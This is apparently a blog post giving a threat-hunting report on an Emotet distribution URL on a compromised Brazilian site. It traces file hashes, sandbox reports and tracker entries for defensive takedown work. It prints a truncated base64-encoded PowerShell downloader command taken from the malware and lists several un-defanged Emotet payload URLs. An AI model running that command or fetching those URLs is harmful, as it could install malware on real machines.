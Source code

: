 ```yaml
---
layout: post
title:  "Threat Hunting Report"
description : The following are examples of how we perform Threat Hunting reporst for our clients.
tags: Threat-Hunting, IOC, any-run, virus-total, hash, powershell
---
```


> Please provide what details you are able to gather about the following URL.
> This is something we might commonly be provided by a Crimeware client as part of a standard research and mitigation request. As with our service these requests can be pretty open 
> ended.
> With that in mind go as far as you feel is required to provide a sufficient response and highlight what might need to be included in a takedown to prospect our client or their
> customers. 
> Make sure to identify if the domain or related IOCS are hacked, or setup by a malicious actor and any valid files, hashes ETC.

```ruby
https://www.actacomunicacao.com.br/provisorio/docs/mq57mhq07gy/
```

To start off on any investigation I like to just do a quick Google search to see if anyone else has looked at the same thing. A good number of times this will help speed up an investigation, additionally it provides some already timestamped and openly available information that can be shared with a provider.

## A quick search of the provided URL returns multiple resources mentioning it exactly. The best part here is these are hits on the exact URL we are looking for.

![alt text](https://Rayferrufino.github.io/assets/pic1.png "Logo Title Text 1")

## I will highlight a few of these below:

```python
https://urlhaus.abuse.ch/url/428853/
https://paste.cryptolaemus.com/emotet/2020/08/10/emotet-malware-IoCs_08-10-20.html
https://paste.cryptolaemus.com/emotet/2020/08/12/emotet-malware-IoCs_08-12-20.html
```

It would appear that the URL is possibly tied to Emotet in some way. We continue to investigate some of these public posts on the URL and quickly can find a good number of doc files posted on Urlhaus tied to the exact url. 

```python
https://urlhaus.abuse.ch/url/428853/
https://urlhaus.abuse.ch/host/www.actacomunicacao.com.br/
```

![alt text](https://Rayferrufino.github.io/assets/pic2.png "Logo Title Text 1")

## Taking the earliest posted sample as an example we are given the following:

```python
File: FILE_ET5654085637AL.doc	
MD5 70fbdde86b9ae6a733975dc0980ea712
SHA-1 bae75e0727170969890336eb60f875267ddc0e35
SHA-256 0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13
```

## Searching for the file hash gets you yet another publicly posted blog mentioning it and how its tied to Emotet:

```ruby
https://paste.cryptolaemus.com/emotet/2020/08/10/emotet-malware-IoCs_08-10-20.html
```


## A quick check on Virustotal for the file also shows bit more about how the file might be used:

```ruby
https://www.virustotal.com/gui/file/0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13/relations
```

![alt text](https://Rayferrufino.github.io/assets/pic3.png "Logo Title Text 1")

```ruby
https://www.virustotal.com/gui/file/0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13/behavior/Lastline
```
![alt text](https://Rayferrufino.github.io/assets/pic4.png "Logo Title Text 1")

Reviewing the behavior and relationship tabs of the above report we see multiple URLs which might be an indication the file is either being dropped, reaching out to or somehow doing something with some of these.

## Online sandbox report:

```ruby
https://app.any.run/tasks/800484d8-7d39-40ef-a4ac-3ba54481696b/
```
![alt text](https://Rayferrufino.github.io/assets/pic5.png "Logo Title Text 1")

From the report we see a call to PowerShell with a long string of characters followed by a new binary being spawned.

## This is a base64 encoded block in a request like the one below:
```ruby
>> powersheLL -e JABWAEgAVQBLAFEAZgBmAHcAPQAnAEEASABEAEoAQgByAGcAYgAnADsAWwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAIgBzAEUAYABDAFUAUgBJAGAAVABZAFAAYABSAG8AdABvAGAAYwBvAEwAIgAgAD0AIAAnAHQAbABzADEAMgAsACAAdABsAHMAMQAxACwAIAB0AGwAcwAnADsAJABXAFEAUQBNAEQAcwBnAGEAIAA9ACAAJwA3ADEAMgAnADsAJABRAEwAUABF….
```

#  Static code analysis:
The PowerShell code is acting as a downloader with a hardcoded list of URLs to iterate through.

![alt text](https://Rayferrufino.github.io/assets/pic6.png "Logo Title Text 1")

## This is also seen being executed in the call graph within the sandbox report.

![alt text](https://Rayferrufino.github.io/assets/pic7.png "Logo Title Text 1")


## Taking one of the URLs from the list: 
```ruby
http://iraniansk.com/wp-content/rm1q_q6x4_l5/
```
We can see it dropped a file during the sandbox run.


## Dropped file:

```ruby
File: rm1q_q6x4_l5 (identified as emotet)
MD5 16BF0F7A0D8008AEF4FDECCD749C7830
SHA1 6AB5FE9A8CF33D8043E7FF3CF6880CA8FB375D20
SHA256 12C0DEAECAFCF3A79D6EF2097E1F0CCC7F72017D7612F45DE8AFB99943FC4875
```
## Searching for this file we find multiple public reports as well:

```ruby
https://feodotracker.abuse.ch/browse/host/74.120.55.163/
```

```ruby
https://app.any.run/tasks/800484d8-7d39-40ef-a4ac-3ba54481696b/
```


# Dynamic analysis:

## Submitting the dropped binary to a public sandbox further points to it being related to Emotet.

```ruby
https://capesandbox.com/submit/status/49440/
```
![alt text](https://Rayferrufino.github.io/assets/pic8.png "Logo Title Text 1")

![alt text](https://Rayferrufino.github.io/assets/pic9.png "Logo Title Text 1")


Additionally, we can confirm from the extracted config above that the PowerShell based request below and the immediate traffic after are related. 

![alt text](https://Rayferrufino.github.io/assets/pic10.png "Logo Title Text 1")

# Summary:

In summary the URL h[xx]ps://www.actacomunicacao.com.br/provisorio/docs/mq57mhq07gy/ appears it was for some period of time used as an Emotet distribution point. Reviewing the site and domain history it is likely this site was hacked, and the attacker used this compromised site to distribute their malware. Further research into how such a site would typically be used leads to a useful repository of data https://github.com/NavyTitanium/Misc-Malwares/tree/master/Emotet


## From the dropped documents we see they contained macro code that would be used to download the actual Emotet binary from URLs similar to the ones below:
```ruby
•	http://iraniansk.com/wp-content/rm1q_q6x4_l5/
•	http://kachetemarketing.com/cgi-bin/9yxsy_nq02_x2tv/
•	http://kinotheque.com/wp-includes/aidu_9c8_rrlp/
•	https://onyourleftracing.com/cgi-bin/fotes_4l_enxguwo/
•	http://slimgenemd.com/hqzfg/z_ya_xkjx5/
```
